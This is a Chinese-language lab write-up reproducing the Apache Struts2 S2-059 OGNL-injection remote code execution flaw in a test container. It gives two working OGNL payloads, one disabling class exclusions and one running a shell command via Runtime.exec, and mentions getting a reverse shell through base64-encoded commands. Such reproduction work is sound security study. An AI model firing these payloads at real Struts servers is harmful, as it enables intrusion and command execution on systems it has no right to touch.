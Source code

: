# Struts2_059_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行

### 0x01漏洞介绍

​			Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

​			影响版本

  		2.0.0 - 2.5.20

### 0x02漏洞复现

#### payload1：

?id=%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}

#### payload2：

?id=%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /test'))}





​			登录界面

![S2_059_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_1.png)



​			Burpsuite抓包，发送第一个payload

![S2_059_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_2.jpg)

​				

​			Burpsuite抓包，发送第二个payload

![S2_059_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_3.jpg)







​				docker进入容器，查看tmp目录，生成test文件，命令成功执行。

![S2_059_rce_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_4.jpg)





(PS:代码执行后无回显，利用bash反弹shell需要base64编码,此处参考了 **hatjwe**师傅的文章)

base64在线编码： http://www.jackson-t.ca/runtime-exec-payloads.html 

poc：https://github.com/ADummmy/vulhub_Writeup/tree/main/code/struts2_059_poc.py

### 0x03总结

​				这是笔者的第三篇文章，复现了大概一天左右，网络上文章质量参差不齐，刚入门导致代码审计看不懂，对新手友好度太差，要么就是上来一段payload和poc，都不告诉你，具体流程是什么，踩了很多坑。不过在此过程中，本人也学到了很多。

### 0x04参考资料

https://my.oschina.net/u/4593034/blog/4693589